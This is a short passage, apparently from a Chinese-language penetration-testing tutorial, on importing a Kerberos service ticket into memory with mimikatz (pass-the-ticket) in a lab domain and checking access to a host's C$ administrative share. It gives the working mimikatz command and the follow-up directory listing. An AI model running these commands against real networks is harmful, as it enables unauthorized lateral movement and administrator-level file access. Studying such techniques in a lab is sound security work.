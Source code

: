 ### 3.2.5. 导入票据

使用mimikatz注入此票据，你可以看那个名称最长就是那个票据，再次之前你可以测试一下，正常情况下是无法访问的，当然你如果使用高权限的话，可能会成功，是由于内存中存在其它票据，而为了实验的严谨，可以使用低权限的账户shell，来导入，在导入前可以进行测试，最好是直接清除票据后，再进行导入。

```
mimikatz kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~OWA2010SP3.0day.org@0DAY.ORG.kirbi

shell dir \\OWA2010SP3\c$
```

![image-20230801175117459](assets/image-20230801175117459.png)

